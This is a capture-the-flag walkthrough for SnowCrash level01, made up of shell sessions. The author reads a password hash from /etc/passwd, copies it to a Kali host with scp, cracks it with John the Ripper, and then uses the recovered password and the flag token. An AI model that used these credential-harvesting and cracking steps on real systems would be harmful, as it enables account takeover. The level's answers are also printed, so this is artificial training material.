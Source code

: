 # level01

Get incredibly lucky and notice a password hash in `/etc/passwd`
```bash
level01@SnowCrash:~$ grep -R flag01 /etc/ 2>/dev/null
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
level01@SnowCrash:~$ grep ^flag01 /etc/passwd > /tmp/passwd
level01@SnowCrash:~$ scp /tmp/passwd kali@kali:flag01pass
```

The hash is a descrypt, traditional `crypt(3)` which is long obsolete and insecure.


Crack hash with John-The-Ripper
```bash
root@kali:~# john --wordlist=/usr/share/john/password.lst flag01pass
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefg          (flag01)
1g 0:00:00:00 DONE (2021-03-31 17:13) 20.00g/s 70840p/s 70840c/s 70840C/s 123456..sss
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@kali:~# john --show flag01pass
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left

root@kali:~#
```

Claim flag
```bash
level01@SnowCrash:~$ rm -f /tmp/passwd
level01@SnowCrash:~$ su flag01
Password:
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$ su level02
Password:
flag02@SnowCrash:~$ 
```
